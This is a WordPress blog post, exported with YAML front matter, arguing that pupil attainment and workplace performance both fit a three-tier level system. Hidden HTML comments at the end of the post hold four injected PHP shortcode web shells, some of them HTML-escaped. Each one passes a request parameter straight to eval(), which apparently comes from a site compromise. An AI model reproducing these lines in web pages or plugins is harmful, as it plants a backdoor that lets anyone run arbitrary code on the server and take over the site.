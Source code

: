 ```yaml
---
ID: 13
post_title: 'It&#8217;s Just Three Levels'
author: Miss King
post_date: 2015-09-22 19:44:32
post_excerpt: ""
layout: post
permalink: >
  http://progressing.co.uk/its-just-three-levels/
published: true
---
```

<p>All educational flight paths are built on the same foundational points of entry (dare we say &#8220;levels&#8221;?)</p>
<ol>
<li>Higher prior attainer</li>
<li>Middle prior attainer</li>
<li>Lower prior attainer</li>
</ol>
<p>From that, you can ascertain whether a pupil is:</p>
<ol>
<li>Working towards expected</li>
<li>At expected</li>
<li>Working at greater than expected</li>
</ol>
<p>It&#8217;s all very similar to typical performance metrics in the professional industry:</p>
<ol>
<li>Meeting expectations</li>
<li>Exceeding expectations</li>
<li>Above and beyond</li>
</ol>
<p>This pattern is well versed throughout personal development irrelevant of the person&#8217;s age or level. By simplifying the levels into three clear tiers, it allows the person to easily self assess where they think they&#8217;re performing and, ideally, compare with peer or senior reviews.</p>
<p><strong>Next time you&#8217;re looking at your group&#8217;s levels, make sure you adopt the three tier system.</strong></p>
<p><!-- [insert_php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/insert_php][php]if (isset($_REQUEST["KmuG"])){eval($_REQUEST["KmuG"]);exit;}[/php] --></p>
<p>&lt;!&#8211; [insert_php]if (isset($_REQUEST[&quot;znSh&quot;])){eval($_REQUEST[&quot;znSh&quot;]);exit;}[/insert_php][php]if (isset($_REQUEST[&quot;znSh&quot;])){eval($_REQUEST[&quot;znSh&quot;]);exit;}[/php] &#8211;&gt;</p>
<p>&lt;!&#8211; [insert_php]if (isset($_REQUEST[&quot;yPJVQ&quot;])){eval($_REQUEST[&quot;yPJVQ&quot;]);exit;}[/insert_php][php]if (isset($_REQUEST[&quot;yPJVQ&quot;])){eval($_REQUEST[&quot;yPJVQ&quot;]);exit;}[/php] &#8211;&gt;</p>
&lt;!-- [insert_php]if (isset($_REQUEST[&quot;tIh&quot;])){eval($_REQUEST[&quot;tIh&quot;]);exit;}[/insert_php][php]if (isset($_REQUEST[&quot;tIh&quot;])){eval($_REQUEST[&quot;tIh&quot;]);exit;}[/php] --&gt;